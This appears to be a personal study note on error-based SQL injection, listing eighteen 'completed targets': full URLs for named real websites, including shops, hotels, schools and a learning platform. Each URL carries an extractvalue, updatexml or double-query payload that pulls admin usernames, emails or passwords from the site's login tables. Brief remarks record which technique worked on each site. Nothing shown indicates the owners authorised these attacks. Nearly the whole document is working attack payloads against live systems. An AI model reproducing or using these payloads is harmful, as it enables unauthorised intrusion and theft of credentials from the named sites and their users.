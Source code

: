 # <mark style="background: #FF5582A6;">Prerequisite :</mark> 

Knowing How To Work With Burp Suite 
[[12-Xpath Injection]]
[[13-Double Query]]

# <mark style="background: #FFB86CA6;">Completed Targets : </mark> 

1. https://www.maapet.com/gallery-list.php?id=-15%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(password)%20from%20admin_login%20limit%200,1)))--+

	

2. http://hiriketiyabeach.lk/room-view.php?id=1%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(username)%20from%20user%20limit%200,1)))--

	

3. http://firoozgar.behkima.ir/lms/view.php?id=22590%27%20and%20updatexml(null,concat(0x3a,(select%20concat(user_email)%20from%20ap_users%20limit%200,1)),null)--+

	

4. https://www.pharmacongignos.in/product.php?id=9%20&%20cat_id=%203%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(admin_name)%20from%20administrators%20limit%200,1)))--+

	

5. https://www.pbw-india.com/category.php?id=2%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(user_email)%20from/**/user_info%20limit%200,1)))*/--

	

6. https://www.jasmineexports.com/category.php?catid=2%20and%20extractvalue(rand(),concat(0x7e,(select%20column_name%20from%20information_schema.columns%20where%20table_name=%27tbladmin%27%20limit%202,1)))--

	(it didin't have a column for the name of the user, but it had the loginid column)

	

7. https://www.htps.edu.hk/en/school.php?id=19%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(usr_name)%20from%20usr%20limit%200,1)))--+

	

	- (https://www.htps.edu.hk/en/school.php?id=19%27%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(usr_pwd)%20as%20char),0x7e))%20from%20holytrinity.usr%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+)

8. https://www.lkh.com.sg/news.php?id=3%20and%20updatexml(null,concat(0x3a,(select%20concat(user_name)%20from%20user%20limit%200,1)),null)--

	

	(when we delete the 0x3a to show the password as complete, the site loaded without any error and it doesn't have [[13-Double Query]])

9. https://acebaypointe.com/post.php?id=28%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/tbl_user%20limit%200,1)))*/--

	

10. http://sinchung.com.my/tour.php?id=26%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(username)%20from%20control_login%20limit%200,1)))--+

	

11. http://www.saleemcarpets.com/prod_detail.php?ID=10%27%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/user%20limit%200,1)))*/--+

	

	<mark style="background: #FF5582A6;">Point :</mark> 
	when we delete the 0x7e to show the password as complete, the site loaded without any error)
	(it doesn't have [[13-Double Query]], only the combined way with
	[[2-Sql Injection (Basic)]] may work, in this way, we have found the name of the important table and the important columns, so we extract the information we want as follow :
	- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,password,7,8,9 from admin--</mark> 

12. http://stpbusiness.st/single.php?id_p=30%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(email)%20from%20usuario%20limit%200,1)))--+

	
	(when we delete the 0x7e to show the password as complete, the site loaded without any error) ---> [[13-Double Query]]

	

	- http://stpbusiness.st/single.php?id_p=30%27%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(senha)%20as%20char),0x7e))%20from%20stpbusiness.usuario%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+

13. https://www.satoribike.com/pro.php?m=d&pid=80&cid=15&f=14%27%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/managers_eng%20limit%200,1)))*/--+

	

14. http://artworkshop.co.uk/newsdetail.php?NewsID=160%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(Email)%20from%20members%20limit%200,1)))--

	
	(when we delete the 0x7e to show the password as complete, the site loaded without any error) ---> [[13-Double Query]]

	

	- http://artworkshop.co.uk/newsdetail.php?NewsID=160%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(password)%20as%20char),0x7e))%20from%20kdyrsxni_db1.members%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--

15. https://www.promare.be/shop.php?id=1%27%20and%20updatexml(null,concat(0x3a,(select%20concat(password)%20from%20%20tbl_login%20limit%200,1)),null)--+

	

16. http://www.embryohotel.com/room-detail.php?id=1%20And(select%201%20from(select%20count(*),concat(0x3a,(select%20substr(group_concat(username,0x3a,password),1,150)%20from%20admin%20where%20table_schema%20like%20database()),0x3a,floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)z)--%20-
	
	

17. http://www.altcine.com/movie.php?id=-1940%27and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(password)%20as%20char),0x7e))%20from%20altcine_mems.users%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+

	

18. http://www.marywardlubhu.edu.np/school.php?id=168&cat_id=23%27%20and%20extractvalue(rand(),concat((select%20concat(username)%20from%20tbl_admin%20limit%200,1)))--+

	